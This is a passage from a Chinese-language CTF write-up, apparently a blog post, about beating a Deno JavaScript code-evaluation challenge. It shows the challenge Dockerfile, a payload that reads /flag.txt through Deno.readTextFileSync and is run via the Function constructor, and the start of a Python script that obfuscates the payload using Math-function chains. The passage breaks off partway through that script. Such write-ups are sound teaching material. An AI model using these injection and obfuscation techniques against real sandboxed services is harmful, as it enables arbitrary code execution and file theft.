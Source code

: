 
![在这里插入图片描述](https://img-blog.csdnimg.cn/fc5bb58759fe4be4b61de9cde8074274.png)
构造出字符串了~

所以我们把字符串替换成恶意代码就行。

这里有个捷径，我们看Dockerfile:

```php
FROM denoland/deno:alpine

WORKDIR /app

COPY . .
RUN deno cache main.js

RUN mv ./flag.txt /flag.txt

EXPOSE 8080

CMD [ "deno", "run", "-A", "--no-prompt", "--unstable", "main.js" ]

```
很明显deno是--no-prompt+--unstable，flag在根目录，所以我们直接构造：

```php
return Deno.readTextFileSync('/flag.txt')
```

然后随便套个function的constructor，用[]的map就能执行代码了，老套路。

最终payload:

```python
import math
import re
import string
import json


basic_tansform = {
    1 : ["Math.random", "Math.ceil"],
    2 : ["Math.random", "Math.ceil", "Math.tan", "Math.ceil"],
    3 : ["Math.abs.name.length.valueOf"],
    4 : ["Math.ceil.name.length.valueOf"],
    5 : ["Math.acosh.name.length.valueOf"],
    6 : ["Math.fround.name.length.valueOf"]
}
def convert_the_target_num(target, res):
    if target < 7:
        return target
    for i in range(target):
        if math.floor(math.log2(math.exp(i))) == target:
            # print(i)
            res.append(f'Math.floor(Math.log2(Math.exp({i})))')
            convert_the_target_num(i, res)
            break
        elif math.ceil(math.log2(math.exp(i))) == target:
            # print(i)
            res.append(f'Math.ceil(Math.log2(Math.exp({i})))')
            convert_the_target_num(i, res)
            break

    return res


def convert_to_js(res):
    res.reverse()
```